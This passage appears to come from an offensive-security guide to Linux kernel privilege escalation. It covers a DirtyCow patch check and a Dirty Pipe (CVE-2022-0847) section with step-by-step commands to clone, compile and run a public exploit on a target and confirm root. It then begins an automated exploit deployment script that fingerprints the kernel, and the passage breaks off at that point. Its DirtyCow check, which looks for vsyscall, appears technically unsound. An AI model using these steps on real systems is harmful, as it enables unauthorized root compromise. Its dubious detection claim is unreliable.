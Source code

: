 ```bash
```

#### Mitigation Detection

To check if the system has been patched against DirtyCow:

```bash
grep -B1 "vsyscall" /proc/self/maps
# Absence of [vsyscall] generally indicates the system is patched
```

### CVE-2022-0847 (Dirty Pipe)

Dirty Pipe is a vulnerability in the Linux kernel that allows overwriting data in read-only files, similar to DirtyCow but affecting newer kernels (5.8 through 5.16.11).

#### Technical Details

The vulnerability exists in the Linux kernel's pipe mechanism, allowing an unprivileged user to inject and overwrite data in read-only files, including SUID binaries.

#### Exploitation

```bash
# Check kernel version (vulnerable: 5.8 to 5.16.11)
uname -r

# Clone the exploit repository (on attack machine)
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits
cd CVE-2022-0847-DirtyPipe-Exploits

# Compile the privilege escalation exploit
gcc -o dirtypipe dirtypipe-mod.c

# Transfer to target and execute
./dirtypipe

# Verify privilege escalation
id
# uid=0(root) gid=0(root) groups=0(root)
```

### Automated Exploit Deployment Script

This script helps automate the process of identifying and deploying kernel exploits:

```bash
#!/bin/bash
# kernel_exploit_deployer.sh - Automate kernel exploit deployment

# Configuration
WORK_DIR="kernel_exploits_$(date +%Y%m%d_%H%M%S)"
KERNEL_VERSION=$(uname -r)
DISTRO=$(cat /etc/os-release | grep "^ID=" | cut -d= -f2 | tr -d '"')
ARCHITECTURE=$(uname -m)

# Create working directory
mkdir -p "$WORK_DIR"
cd "$WORK_DIR"

echo "[+] Kernel Exploit Deployer"
echo "============================"
echo "Kernel Version: $KERNEL_VERSION"
echo "Distribution: $DISTRO"
echo "Architecture: $ARCHITECTURE"
echo ""

```